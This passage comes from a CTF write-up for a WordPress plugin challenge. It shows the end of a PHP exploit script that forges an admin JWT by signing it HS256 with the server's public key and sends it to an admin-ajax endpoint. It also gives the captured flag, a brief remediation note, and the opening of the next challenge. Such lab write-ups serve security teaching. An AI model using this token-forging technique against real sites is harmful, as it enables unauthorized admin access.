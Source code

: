 ```php
		"role" => "admin",
		"iat" => $issuedAt->getTimestamp(),
		"nbf" => $issuedAt->getTimestamp()
	];

	$token = SimpleJWTHandler::encodeToken($data, $publicKey, 'HS256');

    $url = 'http://100.25.255.51:9094/wp-admin/admin-ajax.php?action=simple_jwt_handler';

    $ch = curl_init($url);

    $cookie = 'simple_jwt=' . $token;

    curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
    curl_setopt($ch, CURLOPT_POST, true);
    curl_setopt($ch, CURLOPT_COOKIE, $cookie);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);

    $response = curl_exec($ch);

    echo $response;

}

main();

?>
```

Run the exploit and the FLAG will be obtained.
![Flag](/assets/img/Patchstack-WCUS-CTF-2024/JustinWonkyTokens_Flag2.png)

**Flag:** CTF{4lg0rithms_4r3_funny_1z268}

**Remediation:**

- enforce strict verification of the algorithm RS256 only or other Asymmetric algorithm.

# **My Shop Disaster**

**Description:**\
I just installed wordpress to sell my stuff with Woocommerce. I found it a bit boring so I installed that other plugin to pimp it, I don't think it could cause a security issue?
This is a whitebox challenge, no need to bruteforce anything (login, endpoint, etc).
http://100.25.255.51:9090/
